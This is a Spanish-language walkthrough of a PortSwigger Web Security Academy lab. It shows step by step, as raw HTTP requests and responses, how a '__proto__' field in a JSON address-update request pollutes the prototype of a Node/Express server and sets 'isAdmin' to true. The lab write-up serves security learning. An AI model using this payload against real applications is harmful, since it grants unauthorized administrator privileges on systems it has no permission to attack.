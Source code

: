 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution
---
```


# Lab 6: Privilege escalation via server-side prototype pollution

Primero revisamos el trafico que genera el aplicativo web y se detecta el siguiente request:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Cookie: session=6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq
Content-Length: 168
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq"}
```
{% endcode %}

La peticion anterior responde asi:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d1-h8RJcJes4ggLc1QgdnqPhZHRM9I"
Date: Tue, 25 Jun 2024 19:49:37 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 209

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```
{% endcode %}

Luego de lo anterior, enviamos la siguiente peticion:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Cookie: session=6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq
Content-Length: 203
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq","__proto__": {
    "foo":"bar"
}}
```
{% endcode %}

La peticion anterior es lo mismo pero se le esta adicionando esto:

```
"__proto__": {
    "foo":"bar"
}
```

Y la respuesta fue la siguiente:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d1-h8RJcJes4ggLc1QgdnqPhZHRM9I"
Date: Tue, 25 Jun 2024 19:48:27 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 209

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false,"foo":"bar"}
```
{% endcode %}

La respuesta incluyo el objeto de JSON enviado.

Por lo anterior, se procede con el envio del siguiente request:

```json
POST /my-account/change-address HTTP/2
Host: 0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Cookie: session=6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq
Content-Length: 208
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq",
"__proto__": {
    "isAdmin":true
}}
```

Y tenemos como respuesta:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d0-C/bYHMdz0P5+PlERv2aVqQjVdR8"
Date: Tue, 25 Jun 2024 19:49:43 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 208

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":true,"foo":"bar"}
```
{% endcode %}

Teniendo en cuenta lo anterior, hemos realizado una escalacion de privilegios y esto lo podemos validar accediendo a:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
